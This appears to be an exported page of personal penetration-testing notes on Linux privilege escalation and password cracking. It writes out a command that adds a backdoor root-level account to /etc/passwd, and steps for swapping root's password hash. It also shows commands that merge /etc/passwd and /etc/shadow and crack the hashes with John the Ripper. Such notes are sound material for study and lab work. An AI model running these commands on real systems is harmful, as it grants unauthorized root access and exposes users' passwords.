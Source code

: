 ```shell
echo 'new_user:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

## Replace the hash of root
Generate password
```shell
openssl passwd [password]
```

Edit the `/etc/passwd` file and place the generated password hash between the first and second colon (:) of the root user's row **(replacing the "x").**

</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- The /etc/shadow file is the file on Linux machines where password hashes are stored.
- It also stores other information, such as the date of last password change and password expiration information
# unshadow

John can be very particular about the formats it needs data in to be able to work with it.
you must **combine** it with the /etc/passwd file

``` bash
unshadow [path to passwd] [path to shadow]
```

``` bash
unshadow local_passwd local_shadow > unshadowed.txt
```

use just the relevant line

local_passwd  
Contains the /etc/passwd line for the root user:
local_shadow
Contains the /etc/shadow line for the root user:
# cracking
in some cases you will need to specify the format as we have done previously using: `--format=sha512crypt`

``` bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt
```



</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">
